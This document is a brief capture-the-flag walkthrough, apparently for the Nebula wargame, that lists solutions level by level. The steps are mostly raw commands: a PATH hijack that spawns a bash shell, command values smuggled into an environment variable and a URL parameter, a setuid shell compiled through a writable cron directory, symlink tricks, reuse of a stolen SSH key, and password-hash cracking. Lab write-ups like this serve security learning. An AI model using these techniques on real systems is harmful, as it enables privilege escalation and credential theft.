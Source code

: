 ## Level01
* PATH=/tmp/:$PATH
* create a echo.c in /tmp
```
echo.c
#include<stdio.h>
#include<stdlib.h>

int main(){
    system("/bin/bash");
}

cc echo.c -o echo
```

## Level02
* export USER=";/bin/bash;"

## Level03
* create a `exploit.c` file (just copy from level01) in `/tmp`
* write a `run.sh` in `/home/flag03/writable.d`
```
run.sh
cc /tmp/exploit.c -o /home/flag03/exploit
chmod +s /home/flag03/exploit
```

## Level04
* ln -s /home/flag04/token /tmp/exploit
* ./flag04 /tmp/exploit

## Level05
* tar -xvzf /home/flag05/.backup/backup-19072011.tgz -C /tmp
* cd /tmp && ssh -i .ssh/id_rsa flag05@localhost

## Level06
* in `/etc/passwd` there is `flag06:ueqwOCnSGdsuM:993:993::/home/flag06:/bin/sh`
* save to to a file `crack.txt`
* `john crack.txt --show`
* result: flag06:hello:993:993::/home/flag06:/bin/sh

## Level07
* cd /tmp && wget http://localhost:7007/index.cgi?Host=%3Bgetflag
* cat index.cgi?Host=;getflag 

## Level08
* read the `capture.pcap` file, follow the TCP stream
* as `7f` is `del` thus we can get the password is `backd00Rmate`

## Level14
* decrypt from token
* `8457c118-887c-4e40-a5a6-33a25353165`
* just try the `./flag14 -e` and recognize the difference between input and output(the ord difference)
* then `su flag14` and input that decrypted token